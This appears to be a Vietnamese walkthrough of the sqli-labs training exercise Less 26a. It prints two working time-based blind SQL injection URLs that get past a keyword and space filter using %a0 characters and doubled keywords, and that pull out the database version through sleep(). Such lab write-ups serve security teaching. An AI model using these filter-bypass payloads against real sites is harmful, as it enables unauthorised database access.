




# Less 26a

Đề bài yêu cầu nhập vào một giá trị



Tôi nhập thử vào một vài giá trị



Thử nhập một số giá trị có thể gây ra lỗi. Nhưng ở đây thì tôi không thấy có lỗi hiển thị ra màn hình. 


Như vậy ở bài này sẽ không khai thác được bằng cách cho hiển thị lỗi. Tôi thấy ở bài này cũng đã bị bỏ một số ký tự giống như ở [Less 26](Less-26.md).

Tôi tiếp tục thử thì thấy khi nhập vào 

```
http://192.168.84.233/sqli-labs/Less-26a/?id=1%27)%a0anandd%a0sleep(4)%a0anandd%a0(%271%27)=(%271
```



Dựa vào đây ta có thể khai thác được DB thông qua lỗi thông qua time based

```
http://192.168.84.233/sqli-labs/Less-26a/?id=1%27)%a0anandd%a0if(substr((select%a0@@version),1,1)=%275%27,sleep(10),false)%a0anandd%a0(%271%27)=(%271
```



Ta cũng có thể sử dụng các đoạn script như những bài trước để thấy được DB nhanh chóng hơn